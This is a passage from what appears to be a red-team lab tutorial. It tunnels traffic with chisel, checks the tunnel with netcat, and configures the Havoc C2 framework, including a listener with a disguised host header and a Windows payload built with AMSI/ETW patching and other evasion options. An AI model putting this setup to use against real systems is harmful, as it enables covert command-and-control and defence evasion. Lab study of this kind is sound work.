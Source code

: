 Following the setup, let's execute the script.
`@kali/~/`
```
┌──(kali㉿kali)-[~/lateralmovement/chisel]
└─$ chmod 755 portfwd.sh
./portfwd.sh
```

Let's check if the tunnel works.
```
┌──(kali㉿kali)-[~/lateralmovement/chisel]
└─$ nc -lvnp 65520
nc 192.168.57.8 65520
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/36.png)

### The tunnel works. Our next step is to set up the C2.

## Havoc C2
You can follow the installation steps on this website https://havocframework.com/docs/installation

After installation, run the team server. We can also modify the profile, or view the password in the selected profile file. By default, the user will be `Neo`, and his password `password1234`. Havoc is blazingly fast, as its' server was written in Rust language.

```
./havoc server --profile ./profiles/havoc.yaotl -v --debug
```

And following that, run the client server, and authenticate.
```
./havoc client
```

At the base of our actions, we need a listener. Click on a View tab, and select Listeners. After that, click on Add button and provide needed information. Our changes will be:

```
Name: MAIN
Payload: Https
Hosts: 192.168.57.9, 10.10.24.9
Host (bind): 0.0.0.0
PortBind:65500
PortConn:65500
Host header: Microsoft Analytics Engine 1.0
```

Next, generate payload under Attack > Payload. Our changes will be:
```
Format: Windows Exe
Jitter: 10
Indirect syscall: Checked
Stack duplication: Checked
Sleep technique: Zilean
Proxy Loading: RtlQueueWorkItem
Amsi/Etw Patch: Hardware breakpoints
```
And then click generate.
